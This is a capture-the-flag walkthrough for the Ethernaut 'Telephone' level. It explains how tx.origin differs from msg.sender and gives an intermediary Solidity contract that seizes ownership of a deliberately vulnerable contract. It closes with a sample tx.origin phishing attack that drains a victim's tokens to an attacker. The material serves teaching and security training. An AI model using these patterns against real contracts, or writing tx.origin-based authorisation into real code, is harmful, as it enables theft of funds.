 # Telephone

## Challenge Description

Claim ownership of the contract below to complete this level.

Things that might help:

-   See the "[?](https://ethernaut.openzeppelin.com/help)" page above, section "Beyond the console"

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

## Challenge Solution Walkthrough

When it comes to calling contracts, there are two types of entities involved: Externally Owned Accounts (EOAs) and other contracts. A contract cannot directly call another contract unless an EOA initiates the call to the first contract, which then calls the second contract. Let's explore this with an example:

Consider a scenario where Alice calls a contract called `FirstContract`, and `FirstContract` subsequently calls another contract named `SecondContract`. If we request `FirstContract` to return `msg.sender`, it will correctly provide Alice's address. Similarly, if we request `FirstContract` to return `tx.origin`, it will also return Alice's address.

However, things change when we examine the context of `SecondContract`, which is called by `FirstContract`. If we execute `msg.sender` within `SecondContract`, it will return the address of `FirstContract`. On the other hand, if we execute `tx.origin`, it will return Alice's address. In other words, `tx.origin` retrieves the address of the EOA that initially invoked the contract, while `msg.sender` retrieves the address of the contract or EOA that invoked the current contract in the previous step.

In the `Telephone` contract challenge, the goal is to become the `owner` by calling the `changeOwner()` function with `msg.sender` not being equal to `tx.origin`. To accomplish this, we need to deploy an additional contract and instruct it to call the `changeOwner()` function on our behalf.

To solve the challenge, we'll deploy the `TelephoneSolution` contract provided below. Ensure that the `Telephone.sol` file is placed in the same directory to compile this contract:

```solidit
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneSolution {
    Telephone public telephone;

    constructor(address telephoneAddress) {
        telephone = Telephone(telephoneAddress);
    }

    function solveChallenge() public {
        telephone.changeOwner(msg.sender);
    }
}
```

After deploying the TelephoneSolution contract, invoke the `solveChallenge()` function and provide your address as the input parameter. This will trigger the Telephone contract's `changeOwner()` function, where msg.sender will be set to the address of the `TelephoneSolution` contract, while `tx.origin` remains your wallet address.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
    tokens[tx.origin] -= _value;
    tokens[_to] += _value;
}
```

1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function() payable {
    token.transfer(attackerAddress, 10000);
}
```

1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
